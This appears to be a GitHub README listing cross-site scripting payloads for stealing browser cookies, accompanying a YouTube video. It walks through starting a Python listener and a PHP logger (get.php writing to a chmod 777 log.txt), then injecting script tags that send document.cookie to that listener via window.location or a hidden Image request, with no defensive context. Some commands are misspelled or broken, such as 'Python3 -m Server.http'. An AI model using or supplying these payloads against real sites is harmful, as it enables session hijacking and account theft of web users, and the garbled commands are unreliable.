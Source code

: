 # Stealling Cookies

All Payload that used from this Youtube Video:

https://youtu.be/Kh1sgI5yLdk


Payloads:

# Takeing The Cookie From Python3 Server Listener:

1- Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2- write Payload with window.location() function:

<script> window.location='https://127.0.0.1/:3333?cookie='+document.cookie </script> 


# Send Cookies without go to another window :

1- Strat Python Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2- Write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie:

1- go to html File:

[~] YasserREED> cd  /var/www/html

2- Make File get.php:

YasserrEED> sudo gedit get.php

// Code with the File Just Copy it 

2- Make log.txt file:

YasserRED> sudo touch log.txt

3- Give all Privileges:

YasserREED> sudo chmod 777 log.txt

# Send The Cookie to log.txt by get.php using window.location() function:

1- Write The Payload:

<script> window.location='https://127.0.0.1/get.php?cookie='+document.cookie </script> 

2- Paste to input filed.

3- Check log.txt. //if not showen you can refresh the page 🔄

# Take the cookie Silnce by get.php and send it to log.txt:

1- Write Payload:

<script>
    var o = new Image();
    o.src="http://127.0.0.1/get.php?cookie="+document.cookie
</script>

2- Paste in input filed.

3- Check log.txt //if not showen you can refresh the page 🔄

